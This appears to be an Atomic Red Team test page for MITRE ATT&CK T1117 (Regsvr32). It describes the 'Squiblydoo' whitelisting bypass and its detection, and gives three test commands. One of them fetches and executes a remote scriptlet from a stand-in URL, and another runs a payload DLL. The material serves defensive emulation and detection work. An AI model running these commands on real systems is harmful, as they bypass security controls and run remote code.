 #   T1117 - Regsvr32
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1117)
<blockquote>Regsvr32.exe is a command-line program used to register and unregister object linking and embedding controls, including dynamic link libraries (DLLs), on Windows systems. Regsvr32.exe can be used to execute arbitrary binaries. (Citation: Microsoft Regsvr32)

Adversaries may take advantage of this functionality to proxy execution of code to avoid triggering security tools that may not monitor execution of, and modules loaded by, the regsvr32.exe process because of whitelists or false positives from Windows using regsvr32.exe for normal operations. Regsvr32.exe is also a Microsoft signed binary.

Regsvr32.exe can also be used to specifically bypass process whitelisting using functionality to load COM scriptlets to execute DLLs under user permissions. Since regsvr32.exe is network and proxy aware, the scripts can be loaded by passing a uniform resource locator (URL) to file on an external Web server as an argument during invocation. This method makes no changes to the Registry as the COM object is not actually registered, only executed. (Citation: SubTee Regsvr32 Whitelisting Bypass) This variation of the technique is often referred to as a "Squiblydoo" attack and has been used in campaigns targeting governments. (Citation: Carbon Black Squiblydoo Apr 2016) (Citation: FireEye Regsvr32 Targeting Mongolian Gov)

Regsvr32.exe can also be leveraged to register a COM Object used to establish Persistence via Component Object Model Hijacking. (Citation: Carbon Black Squiblydoo Apr 2016)

Detection: Use process monitoring to monitor the execution and arguments of regsvr32.exe. Compare recent invocations of regsvr32.exe with prior history of known good arguments and loaded files to determine anomalous and potentially adversarial activity. Command arguments used before and after the regsvr32.exe invocation may also be useful in determining the origin and purpose of the script or DLL being loaded. (Citation: Carbon Black Squiblydoo Apr 2016)

Platforms: Windows

Data Sources: Loaded DLLs, Process monitoring, Process command-line parameters, Windows Registry

Defense Bypassed: Process whitelisting, Anti-virus

Permissions Required: User, Administrator

Remote Support: No

Contributors: Casey Smith</blockquote>

## Atomic Tests

- [Atomic Test #1 - Regsvr32 local COM scriptlet execution](#atomic-test-1---regsvr32-local-com-scriptlet-execution)

- [Atomic Test #2 - Regsvr32 remote COM scriptlet execution](#atomic-test-2---regsvr32-remote-com-scriptlet-execution)

- [Atomic Test #3 - Regsvr32 local DLL execution](#atomic-test-3---regsvr32-local-dll-execution)


<br/>

## Atomic Test #1 - Regsvr32 local COM scriptlet execution
Regsvr32.exe is a command-line program used to register and unregister OLE controls

**Supported Platforms:** windows


#### Inputs
| Name | Description | Type | Default Value | 
|-------------------------------------------|
    | filename | Name of the local file, include path. | Path | Regsvr32.sct|

#### Run it with `command_prompt`!
```
regsvr32.exe /s /u /i:#{filename} scrobj.dll

```
<br/>
<br/>

## Atomic Test #2 - Regsvr32 remote COM scriptlet execution
Regsvr32.exe is a command-line program used to register and unregister OLE controls

**Supported Platforms:** windows


#### Inputs
| Name | Description | Type | Default Value | 
|-------------------------------------------|
    | url | URL to hosted sct file | Url | http://www.example.com/file.sct|

#### Run it with `command_prompt`!
```
regsvr32.exe /s /u /i:#{url} scrobj.dll

```
<br/>
<br/>

## Atomic Test #3 - Regsvr32 local DLL execution
Regsvr32.exe is a command-line program used to register and unregister OLE controls

**Supported Platforms:** windows


#### Inputs
| Name | Description | Type | Default Value | 
|-------------------------------------------|
    | dll_name | Name of DLL to Execute, DLL Should export DllRegisterServer | Path | payload.dll|

#### Run it with `command_prompt`!
```
regsvr32.exe {dll_name}

```
<br/>
